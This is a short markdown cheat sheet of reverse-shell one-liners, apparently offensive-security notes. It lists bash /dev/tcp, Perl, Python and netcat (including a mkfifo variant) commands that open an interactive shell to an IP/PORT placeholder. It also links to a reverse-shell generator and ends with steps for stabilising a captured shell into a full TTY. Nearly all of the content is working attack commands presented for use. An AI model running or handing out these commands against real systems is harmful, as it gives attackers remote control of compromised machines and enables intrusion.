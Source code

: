 # Shells 
## Bash
**In Current Shell**
```bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```
**In New Bash Shell**
Linux
```bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
## Perl 
Linux
```bash
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Python 
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## Netcat 
### With '-e' Option
```bash
nc -e /bin/sh IP PORT
```
### Without '-e' Option
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```
## Socat 
## Meterpreter 
## Links
### Reverse Shell Generator
[RevShells](https://www.revshells.com/)

# Stabalizing Shells
## Python
1.
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
2.
```bash
export TERM=xterm
```
3.
CTRL+Z

4.
```bash
stty raw -echo; fg
```
